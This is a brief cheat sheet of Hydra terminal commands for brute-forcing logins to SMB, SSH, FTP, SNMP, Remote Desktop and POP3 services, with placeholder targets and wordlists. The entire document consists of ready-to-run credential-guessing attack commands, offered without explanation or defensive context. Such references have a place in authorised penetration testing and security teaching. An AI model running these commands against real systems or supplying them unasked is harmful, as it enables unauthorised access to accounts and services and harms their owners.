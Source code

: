 Bruteforce terminal commands to use with Hydra.

# hydra: bruteforce smb login 
hydra -L users.txt -P passwords.txt -e nsr smb://targetIp

# hydra: bruteforce ssh login (-V, -v verbose)
hydra -l root -P passwordlist ssh://ipv4Address -V

# hydra: bruteforce ftp login
hydra -t 5 -V -f -C /tmp/wordlist ftp://targetIp

# hydra: bruteforce SNMP
hydra -P password-file.txt -v ipv4Address snmp

# hydra: bruteforce Windows Remote Desktop
hydra -t 1 -V -f -l administrator -P /path/to/wordlist.txt rdp://ipv4Address

# hydra: bruteforce POP3
hydra -l userName -P /path/to/wordlist -f ipv4Address pop3 -V